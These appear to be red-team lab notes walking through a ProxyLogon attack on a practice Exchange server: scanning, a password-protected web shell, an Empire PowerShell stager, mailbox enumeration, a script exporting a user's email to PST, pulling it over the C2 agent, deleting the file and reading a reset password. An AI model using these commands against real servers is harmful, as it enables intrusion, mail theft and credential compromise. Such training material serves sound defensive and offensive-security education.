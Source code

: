 #### Tags: [[12 - Command and Control (TA0011)]] | [[Creating and Testing Payloads]]
## Objectives

    Scan the Microsoft Exchange server
    Use a web shell to interact with the mail server
    Execute an Empire stager on the mail server
    Export user emails
    Read user emails for target intelligence
### Scan Microsoft Exchange
```markdown
# Scan mail server
cd /labs/sec-3/initial-access/

curl https://raw.githubusercontent.com/GossiTheDog/scanning/main/http-vuln-exchange.nse -o http-vuln-exchange.nse

nmap --script http-vuln-exchange.nse mail.draconem.io
```
#### ProxyLogon
- ProxyLogon is the name for CVE-2021-26855 and CVE-2021-27065. CVE-2021-26855 is a vulnerability on Microsoft Exchange that allows authentication bypass. 
- CVE-2021-27065 is a post authentication file write vulnerability. When chained together, they allow remote code execution by allowing an adversary to bypass authentication and write a web shell to the server.
![[Pasted image 20240324024102.png]]
###### Red Team Tip: Only use web shells wiSth authentication, otherwise others could leverage your web shell.
- Note: Depending on client we can request White cell to allow us to simulate exploitation to avoid take down production servers.

### Launch [[Empire C2#Create an Empire listener]]
- Launch Empire and start an http listener on port 8080 for your tun0 interface. 

### Create [[Creating and Testing Payloads#*Payload * Create interactive HTTP Powershell Stager|Payload: Create interactive HTTP Powershell Stager]]


### Interact with the Web Shell
- Navigate to URL to explore the webshell as it comes with a lot of functionality!
	- Password: `#$pwn3daspx#$h3ll` to authenticate to the web shell

![[Pasted image 20240324031111.png]]
#### Notes
- IIS Default Directory: `C:\Inetpub`
- Exchange Default Directory: `C:\Program _Files_\_Microsoft_\_Exchange Server_\V15\ClientAccess\Owa`
- Find a file via PowerShell `Get-ChildItem -Path 'C:\' -Recurse -Include 'rt-webshell-xcowe83.aspx' -File -Force`
- WebShell Path on Target system: `C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\rt-webshell-xcowe83.aspx`
- ASPX WebShell on Private GitHub: [**AspxRevShell**](https://github.com/raghavtalwar/Arsenal/tree/main/AspxRevShell)
 
### Deploy Agent on mail.draconem.io
*Goal:* We want to get an agent/beacon on this Microsoft Exchange system in order to bring more tools and capability.
1. Click Cmd command in the top navigation window. 
2. Paste your PowerShell stager into Statements to spawn a new agent. 
3. Click carried out and check starkiller for a new agent.
**Remember:** The Statements field should start with `/c powershell -noP -sta -w 1 -enc ...`

![[Pasted image 20240324032203.png]]

![[Pasted image 20240324032430.png]]

### Enumerate Users
- *Goal:* Pick up target intelligence from user email
- The `Microsoft.Exchange.Management.Powershell.SnapIn` that will allow us use additional PowerShell functions and cmdlets that interact with Microsoft Exchange
```markdown
# Enumerate the users with mailboxes
powershell -c "Add-PSSnapIn Microsoft.Exchange.Management.Powershell.SnapIn; Get-Recipient | Format-Table -Auto Alias"
```
![[Pasted image 20240324033515.png]]
### Export User Emails
*Goal:* The PS script will leverage Exchange SnapIn, sets an output file and then exports the user's email to a PST file. 
- Create the file on Slingshot Linux at `/labs/sec-3/initial-access/export-email.ps1`
- Note: These commands need to run as a script because there are some inconsistencies with stating UNC paths
```powershell
function Export-Email {
    param (
        $User
    )
    Add-PSSnapIn Microsoft.Exchange.Management.Powershell.SnapIn;
    $OutFile = "\\127.0.0.1\c$\ProgramData\" + $User + ".pst";
    New-MailboxExportRequest -Mailbox $User -FilePath $OutFile;
};
```
We will invoke this script with an Empire module called *invoke_script*. 
- Interact with your agent, select `powershell/management/invoke_script` from the Execute Module drop down list.
- Then enter the following values:

	    ScriptCmd: Export-Email Mark.Goodwin
	    ScriptPath: /labs/sec-3/initial-access/export-email.ps1

![[Pasted image 20240324033656.png]]

- There are many ways to complete a task but these commands mimic the same techniques used by HAFNIUM, the adversary we are emulating.

![[Pasted image 20240324035153.png]]
### Read User Emails
1. Download the exported mailbox by clicking the down arrow icon in the upper right of the agent screen. 
2. The file should be located at `c:\ProgramData\Mark.Goodwin.pst` 
3. After downloading the file delete it off the mail server by issuing this shell command `del c:\ProgramData\Mark.Goodwin.pst`
```markdown
#### Example the PST using readpst
## Find the PST file in our Agent download directory & Copy it
cd /labs/sec-3/initial-access/

find /opt/Empire/empire/server/downloads/ | grep pst

cp /opt/Empire/empire/server/downloads/agent Name/C:/ProgramData/Mark.Goodwin.pst .

readpst -S -o . Mark.Goodwin.pst
```
![[Pasted image 20240324035812.png]]
```markdown
#### readpst has extracted all the emails from the pst file to plain text
## We can now read through them for target intelligence
ll Mark.Goodwin/Inbox/

strings Mark.Goodwin/Inbox/1
```
![[Pasted image 20240324040015.png]]
We just found that Mark Goodwin's password has been reset to `C@v3t3Dr@c0n3m!!`
#### Notes | Bonus


## Conclusion